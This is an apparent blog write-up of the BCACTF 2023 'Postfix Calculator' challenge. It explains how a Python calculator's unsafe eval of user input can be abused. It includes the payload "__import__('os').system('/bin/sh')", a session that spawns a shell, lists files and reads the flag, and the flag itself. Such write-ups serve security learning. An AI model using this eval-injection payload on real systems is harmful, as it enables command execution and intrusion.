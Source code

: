 ```yaml
---
title: BCACTF 2023 - Postfix Calculator
date: Sun Jun 11 01:45:35 PM +04 2023
categories: [Writeup]
tags: [ctf,bcactf2023,misc]
---
```


## Description
 
Postfix Calculator | 75  points | By `Parth`

Mr. Wang left some tricks behind in his Intro to CS labs before leaving BCA. Can you use the Postfix lab to get the flag?

Netcat Links:`nc  challs.bcactf.com 30096`<br>
Static resources: [PostfixCalculator.py](https://storage.googleapis.com/bcactf/postfix-calculator/PostfixCalculator.py)
 
## Analysis   

While the code is simple, its awfully not verbose and unclear what's happening.

I added `print` statements so we can see what we are doing.
```py
### Take inputs for required 2 nums and 1 operator ###
num = input("[-] Num 1: ")
num2 = input("[-] Num 2: ")
op = input("[-] Operator: ")

### Check if op is a valid operator ###
### If no, then raise error ###
if not op in ['+', '-', '*', '/', '^']:
    raise SyntaxError('Read token %s, expected operator' % op)
### Else, calculate new answer ###
print(f'\neval={num}{op}{num2}')
answer = eval(f'{num}{op}{num2}')
print(f"{answer=}\n")

num = input("[*] Num: ")
### Take inputs for more nums and operators ###
while num != '=':
    op = input("[*] Operator: ")
### If not '=' or invalid, then calculate new answer ###
    if not op in ['+', '-', '*', '/', '^']:
        raise SyntaxError('Read token %s, expected operator' % op)
    print(f"{answer} {op} {float(num)}")
    answer = eval(f'{answer} {op} {float(num)}')
    num = input("[*] Num: ")

### Output final answer ###
print(answer)
```

Okay, first part takes in `num1`, `num2` and `operator`. The first `eval` is not exploitable since it concatinates everything without spaces, but we can use that functionality to craft payload.

Second `eval` is where exploit will happen since our `answer` payload will get evaluated (notice spaces) and rest will get added.

I mention concatinate/add and by that I mean that I'll be using `+` as operator, since other operators can't benefit us in python. <br><small>Maybe `*` can but I'll stick to `+`</small>

```sh
└─$ py PostfixCalculator.py
[-] Num 1: "__import__('os').system('/bin/sh')"
[-] Num 2: ""
[-] Operator: +

eval="__import__('os').system('/bin/sh')"+""
answer="__import__('os').system('/bin/sh')"

[*] Num: 0
[*] Operator: +
payload=__import__('os').system('/bin/sh') + 0.0
$ whoami
kali
```

## Solution

```sh
➜ ncat challs.bcactf.com 30096
"__import__('os').system('/bin/sh')" # Num1
""                                   # Num2
+                                    # Operator1
0                                    # Loop num
+                                    # Loop operator
id                                   # Test shell
uid=12345(ctf) gid=12345(ctf) groups=12345(ctf)
ls                                   # Find flag
Dockerfile
PostfixCalculator.py
chall.yaml
flag.txt
solve.txt
ynetd
cat flag*                             # cat flag.txt
bcactf{L3@kY_fUNcT!0n5_178235}
```